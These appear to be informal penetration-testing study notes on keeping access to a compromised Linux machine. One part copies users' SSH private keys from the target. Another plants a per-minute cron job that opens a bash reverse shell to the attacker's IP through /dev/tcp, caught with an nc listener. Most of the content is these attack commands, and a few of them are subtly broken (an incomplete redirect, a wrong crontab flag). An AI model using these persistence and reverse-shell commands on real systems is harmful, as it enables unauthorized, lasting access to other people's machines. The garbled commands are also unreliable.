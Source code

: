       
    
      
    

  

  

### ==_**Linux Persistence**_==

  

- ==Persistence Via SSH Keys==

> One of the login method we can use to login with SSH is key-based ⇒ so here we don’t need to utilize the username and password to login , u need to have just the private key .

  

- _Persistence Via SSH Keys_
    
    - `nmap -sV -sS -O <target ip>` ⇒ to scan for open ports and what services are running on this port
    - After we exploit the vuln services and get access to target system
    - now the process is simple after we gain access we need to find the ssh dir ⇒ that dir have all user private key , so copy the private key files on your system
    - then when we login we will login like this ⇒ `ssh -i <private-key file > <username>@<target ip>`
    
    > So now if the user change his password we will gain access normally , because we relay on private-key not on the password .
    

  

- ==_Persistence Via Cron Jobs_==

  

> What the image mean we will set up a cron jobs run every min , every hour , every day , every week … etc. ⇒ so that’s mean we will get access to target system when we want

> set up a cron jobs doesn’t matter what type of access u want , if u have a user access not administrator , it’s fine u can do that

  

- _Persistence Via Cron Jobs_
    
    - `nmap -sV -sS -O <target ip>` ⇒ to scan for open ports and what services are running on this port
    - After we exploit the vuln services and get access to target system
    - `cat /etc/cron` ⇒ to see all cron file on target system
    - `echo “* * * * * /bin/bash -c ‘bash -i >& /dev/tcp/<our ip>/<port we will set up the handler on it > 0>&’” > cron` ⇒ so here we create a file called cron , as u can see we set up it to run with 5 * , so it will run always
    - `crontab -i cron` ⇒ that will added our crop file to crontab
    - `nc -nvlp <port we enter on cron job >` ⇒ that will let us access when we want via cron jobs
    
      
    

  

  

## ==_**Dumping & Cracking**_==

  